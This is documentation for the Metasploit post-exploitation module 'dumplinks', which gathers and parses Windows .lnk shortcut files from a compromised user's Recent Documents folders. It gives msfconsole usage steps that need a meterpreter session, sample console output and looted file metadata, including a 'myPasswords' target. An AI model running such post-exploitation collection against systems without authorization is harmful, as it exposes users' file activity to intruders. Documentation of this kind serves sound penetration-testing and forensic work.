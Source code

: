 
## Vulnerable Application

  The dumplinks module is a modified port of Harlan Carvey's lslnk.pl Perl script. This module will parse .lnk files from a user's
  Recent Documents folder and Microsoft Office's Recent Documents folder, if present. Windows creates these link files automatically
  for many common file types. The .lnk files contain time stamps, file locations, including share names, volume serial numbers, and more.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/dumplinks```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options

  **SESSION**

  The session to run the module on.


## Scenarios

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.10:49160) at 2019-12-11 15:45:16 -0700

  msf > use post/windows/gather/dumplinks
  msf post(windows/gather/dumplinks) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/dumplinks) > run

    [*] Running module against TEST-PC
    [*] Extracting lnk files for user TEST at C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\...
    [*] Processing: C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\myPasswords.lnk.
    [*] Processing: C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\Network and Internet.lnk.
    [*] No Recent Office files found for user TEST. Nothing to do.
    [*] Post module execution completed
  ```

## Example of looted .lnk output

  ```
  [*] exec: cat /root/.msf4/loot/20191211154832_default_192.168.1.10_host.windows.lnk_124491.txt

  C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\myPasswords.lnk:
          Access Time       = 2019-12-11 23:44:39 -0700
          Creation Date     = 2019-12-11 23:44:39 -0700
          Modification Time = 2019-12-11 23:44:39 -0700
  Contents of C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\myPasswords.lnk:
          Flags:
                  Shell Item ID List exists.
                  Shortcut points to a file or directory.
                  The shortcut has a relative path string.
                  The shortcut has working directory.
          Attributes:
                  Target was modified since last backup.
          Target file's MAC Times stored in lnk file:
                  Creation Time     = 2019-12-11 23:44:30 -0700. (UTC)
                  Modification Time = 2019-12-11 23:44:30 -0700. (UTC)
                  Access Time       = 2019-12-11 23:44:30 -0700. (UTC)
          ShowWnd value(s):
                  SW_NORMAL.
                  SW_SHOWMAXIMIZED.
                  SW_SHOW.
                  SW_SHOWMINNOACTIVE.
                  SW_RESTORE.
        Target file's MAC Times stored in lnk file:
                  Creation Time     = 2019-12-11 23:44:30 -0700. (UTC)
                  Modification Time = 2019-12-11 23:44:30 -0700. (UTC)
                  Access Time       = 2019-12-11 23:44:30 -0700. (UTC)
        Shortcut file is on a local volume.
                  Volume Name =
                  Volume Type = Fixed
                  Volume SN   = 0x548EF20B
        Target path = C:\Users\TEST\Desktop\myPasswords.txt&..\..\..\..\..\Desktop\myPasswords.txtC:\Users\TEST\Desktop(
      ```
